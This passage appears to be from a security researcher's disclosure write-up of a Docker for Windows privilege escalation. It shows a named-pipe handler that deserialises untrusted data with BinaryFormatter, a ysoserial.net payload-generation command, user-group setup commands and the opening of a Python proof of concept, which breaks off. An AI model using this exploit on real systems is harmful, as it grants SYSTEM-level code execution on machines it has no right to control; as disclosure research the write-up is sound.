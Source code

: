 <p class="cn" markdown="1">Then the **DoRunAsync** method calls the **HandleRequestAsync** method.</p>

```csharp
private async Task HandleRequestAsync(NamedPipeServerStream pipeServer)
{
    try
    {
        using (NamedPipeServerStream server = pipeServer)
        {
            byte[] sizeBytes = new byte[4];
            await server.ReadAsync(sizeBytes, 0, sizeBytes.Length);
            int size = BitConverter.ToInt32(sizeBytes, 0);
            byte[] requestBytes = new byte[size];
            await server.ReadAsync(requestBytes, 0, requestBytes.Length);
            BinaryFormatter bf = new BinaryFormatter();
            PipeRequest request = (PipeRequest)bf.Deserialize(new MemoryStream(requestBytes, 0, requestBytes.Length, false));
```

<p class="cn" markdown="1">Finlly, this method calls the BinaryFormatter's **Deserialize** on untrusted data leading to code execution as **SYSTEM**.</p>

### Exploitation

<p class="cn" markdown="1">Now comes the fun bit. I first needed to create a test user account and place them into the docker-users group. Following that, I launched a command shell under that users privilege.</p>

```
C:\>net localgroup docker-users test /add
The command completed successfully.

C:\>runas /user:test cmd
Enter the password for test:
Attempting to start cmd as user "target\test" ...
```

<p class="cn" markdown="1">Then, using [ysoserial.net] I used the **BinaryFormatter** class as the formatter and used [@tiraniddo's] **TypeConfuseDelegate** gadget chain.</p>

```
C:\>ysoserial.exe -f BinaryFormatter -g TypeConfuseDelegate -o raw -c "[CMD]" > poc.bin
```

<p class="cn" markdown="1">Obviously, we can't execute `[CMD]` so I modified the binary payload to accept any command for my poc. Now, it was simply a matter of testing things out!</p>

{% include image.html
            img="assets/images/docker-exploit.png"
            title="Getting SYSTEM via Docker for Windows"
            caption="Getting SYSTEM via Docker for Windows"
            style="width:50%;height:50%" %}

Here is the source to the poc:

```python
import sys
import struct

if len(sys.argv) != 2:
    print "(+) usage %s <cmd>" % sys.argv[0]
    print "(+) eg: %s \"whoami > c:\\si.txt\"" % sys.argv[0]
    sys.exit(-1)
    
cmd = "/c %s" % sys.argv[1]

with open('poc.bin', 'rb') as p:
    payload = p.read()
```

[docker]: https://www.docker.com/docker-windows
[ysoserial.net]: https://github.com/pwntester/ysoserial.net
[@tiraniddo's]: https://twitter.com/tiraniddo